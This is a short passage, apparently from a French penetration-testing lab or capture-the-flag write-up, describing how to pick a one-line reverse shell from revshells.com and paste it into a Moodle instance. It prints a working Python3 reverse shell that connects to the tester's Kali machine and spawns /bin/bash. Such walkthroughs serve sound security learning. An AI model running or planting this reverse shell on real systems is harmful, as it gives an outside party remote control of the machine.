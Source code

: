 Cherchons un oneline reverse-shell par exemple dans [revshells.com](https://www.revshells.com/)

<figure><img src=".gitbook/assets/rev-shell-01.png" alt=""><figcaption><p>oneline reverse-shell</p></figcaption></figure>

Essayons un de mes reverse-shells préféré, le Python3 shortest:

<pre class="language-python" data-overflow="wrap"><code class="lang-python"><strong>python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("&#x3C;IP tun0 de Kali>",12345));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
</strong></code></pre>

Copions le reverse-shell dans Moodle et sauvegardons le tout.
